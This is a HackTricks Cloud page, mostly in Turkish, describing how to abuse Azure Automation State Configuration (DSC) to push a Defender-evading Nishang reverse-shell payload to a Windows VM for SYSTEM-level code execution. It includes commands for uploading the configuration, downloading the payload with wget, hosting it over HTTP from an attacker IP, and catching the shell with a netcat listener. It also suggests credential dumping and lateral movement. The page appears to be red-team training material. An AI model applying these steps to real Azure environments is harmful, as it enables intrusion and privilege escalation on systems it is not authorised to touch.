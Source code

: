 # Az - State Configuration RCE

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

**Tam gönderiyi kontrol edin:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Uzaktan Sunucu (C2) Altyapı Hazırlığı ve Adımlarının Özeti

#### Genel Bakış

Bu süreç, Windows Defender'ı atlatmak için tasarlanmış, `RevPS.ps1` adında değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak üzere uzaktan bir sunucu altyapısı kurmayı içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyaları Oluşturma

* **Gerekli Dosyalar:** İki PowerShell betiğine ihtiyaç vardır:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir İstenilen Durum Yapılandırması (DSC) dosyasıdır. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı VM'ye yayınlamak için bir betik, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) adresinde mevcuttur.
* **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kullanıcıya özgü ortam için, kaynak adları, dosya yolları ve sunucu/yük tanımlayıcıları dahil olmak üzere özelleştirilmelidir.

#### Adım 2 — Yapılandırma Dosyasını Zip'leme

* `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılır, böylece Azure Storage Account'a transfer için hazır hale gelir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarla ve Yükle

* Sıkıştırılmış yapılandırma dosyası, Azure'un Set-AzStorageBlobContent cmdlet'ini kullanarak önceden tanımlanmış Azure Depolama konteyneri olan azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlama

* Kali sunucusu RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Script, hedef Windows VM ve ters shell için port belirtmek üzere düzenlenir.

#### Adım 5 — Konfigürasyon Dosyasını Yayınla

* Konfigürasyon dosyası çalıştırılır ve bu, ters shell scriptinin belirtilen konuma Windows VM üzerinde dağıtılmasına neden olur.

#### Adım 6 — Payload'ı Barındır ve Dinleyici Kur

* Payload'ı barındırmak için bir Python SimpleHTTPServer başlatılır ve gelen bağlantıları yakalamak için bir Netcat dinleyicisi kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Planlanan görev, yükü çalıştırarak SYSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgisi dökümü veya saldırının birden fazla VM'ye genişletilmesi gibi daha fazla eylem için sayısız olasılık açar. Kılavuz, Azure Automation DSC alanında sürekli öğrenmeyi ve yaratıcılığı teşvik eder.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
